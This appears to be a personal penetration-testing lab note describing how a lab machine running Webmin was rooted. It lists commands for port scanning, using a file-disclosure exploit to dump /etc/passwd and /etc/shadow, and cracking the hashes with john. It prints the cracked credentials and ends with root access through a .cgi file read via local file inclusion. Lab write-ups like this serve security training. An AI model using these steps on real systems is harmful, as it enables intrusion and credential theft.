

10.11.1.141 FC4 rooted
nmap showed that 22, 111, 10000 were all open.
10000 was running a webserver with webmin.
searchsploit webmin showed an arbitrary file disclosure.
useing the php one I was able to dump /etc/passwd
php -f 1997.php 10.11.1.141 10000 http /etc/passwd
I was also able to dump /etc/shadow
with /etc/shadow and /etc/passwd I was able to copy paste the output to files and run unshadow.
unshadow 141passwd 141shadow > 141hash
john --wordlist=/Yeet/Tools/Wordlists/rockyou.txt 141hash
I now have the creds
alice:loading1
bob:BUGZBUNNY
sshing in was a huge pain becasue I was getting the error
Unable to negotiate with 10.11.1.141 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
the fix was to run
ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 alice@10.11.1.141
By all reasonable thoughts, the machine should be vulnerable to a kernel exploit, but alas, it is not.
Fortunatley, the webserver is running as root. (We know this because we were able to dump /etc/shadow and /root/proof.txt).
Often whatever file extension the webserver is running as (in this case CGI) will execute as that language (in this case .pl) if you LFI to a .cgi file.
php -f 1997.php 10.11.1.141 10000 http /tmp/3232.cgi
rooted!
8aafac90ff1c985236b1593e84709fb0